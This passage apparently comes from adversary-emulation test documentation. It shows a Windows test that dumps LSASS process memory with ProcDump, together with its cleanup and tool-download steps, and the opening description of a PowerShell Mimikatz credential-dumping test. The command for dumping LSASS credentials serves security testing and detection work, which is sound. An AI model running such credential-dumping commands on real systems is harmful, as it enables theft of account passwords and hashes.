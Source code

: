 
**auto_generated_guid:** 7cede33f-0acd-44ef-9774-15511300b24b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where resulting dump should be placed | path | C:&#92;Windows&#92;Temp&#92;lsass_dump.dmp|
| procdump_exe | Path of Procdump executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;procdump.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{procdump_exe}" -accepteula -mm lsass.exe #{output_file}
```

#### Cleanup Commands:
```cmd
del "#{output_file}" >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: ProcDump tool from Sysinternals must exist on disk at specified location (#{procdump_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{procdump_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://download.sysinternals.com/files/Procdump.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\Procdump.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\Procdump.zip" "PathToAtomicsFolder\..\ExternalPayloads\Procdump" -Force
New-Item -ItemType Directory (Split-Path "#{procdump_exe}") -Force | Out-Null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\Procdump\Procdump.exe" "#{procdump_exe}" -Force
```




<br/>
<br/>

## Atomic Test #10 - Powershell Mimikatz
Dumps credentials from memory via Powershell by invoking a remote mimikatz script.
If Mimikatz runs successfully you will see several usernames and hashes output to the screen.
Common failures include seeing an \"access denied\" error which results when Anti-Virus blocks execution. 
Or, if you try to run the test without the required administrative privileges you will see this error near the bottom of the output to the screen "ERROR kuhl_m_sekurlsa_acquireLSA"
